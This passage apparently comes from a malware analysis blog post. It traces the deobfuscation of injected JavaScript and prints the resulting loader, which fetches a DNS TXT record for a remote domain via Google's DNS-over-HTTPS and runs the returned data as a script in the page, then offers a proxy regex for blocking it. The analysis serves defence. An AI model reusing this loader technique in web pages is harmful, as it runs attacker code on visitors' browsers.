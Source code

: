 ```
_0x58060d(_0x58f7('0x17)): createElement
_0x58f7: Input: 24,undefined, output:0x9
_0x58060d: Input: 9,undefined, output:script
_0x58060d(_0x58f7('0x18')): script
_0x58f7: Input: 25,undefined, output:0xa
_0x58060d: Input: 10,undefined, output:innerHTML
_0x58060d(_0x58f7('0x19')): innerHTML
_0x58f7: Input: 26,undefined, output:0xb
_0x58060d: Input: 11,undefined, output:substring
_0x58060d(_0x58f7('0x1a')): substring
_0x58f7: Input: 27,undefined, output:length
_0x58f7('0x1b'): length
_0x58f7: Input: 28,undefined, output:body
_0x58f7('0x1c'): c
_0x58f7: Input: 29,undefined, output:0xc
_0x58060d: Input: 12,undefined, output:appendChild
_0x58060d(_0x58f7('0x1d')): appendChild
_0x58060d: Input: 13,undefined, output:send
_0x58060d('0xd'): send

```

Replacing the obfuscated strings with the deobfuscate strings and renaming the variables gives the following:

{% highlight JavaScript linenos %}
var XMLHTTP = new XMLHttpRequest();
XMLHTTP[Open](Get), "https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT";
XMLHTTP[onreadystatechange] = function() {
    if (XMLHTTP[status] == 0xc8 && XMLHTTP[readyState] == 0x4) {
        var responseTextString = JSON[parse](XMLHTTP[responseText]);
        var dataString = responseTextString[Answer][0x0][data];
        var HTMLDocument = document[createElement](script);
        HTMLDocument[innerHTML] = dataString[substring](0x1, dataString[length] - 0x1);            
        document[length][appendChild](HTMLDocument);
    }
};

XMLHTTP[send]();
{% endhighlight JavaScript %}

This verifies our educated guess from earlier.

## Blocking the Script
There are different ways to block the script.  One way is to block the initial DNS lookup.  Another way is to block the second domain.  I looked at number of the DNS TXT responses and at the moment there seems to be a pattern in the responses.

The second domain can be blocked by a web proxy, using the following Regex:

```
\d{5}bfg36abp\..*\.\w{3}\/\d{5}\.html\\
```
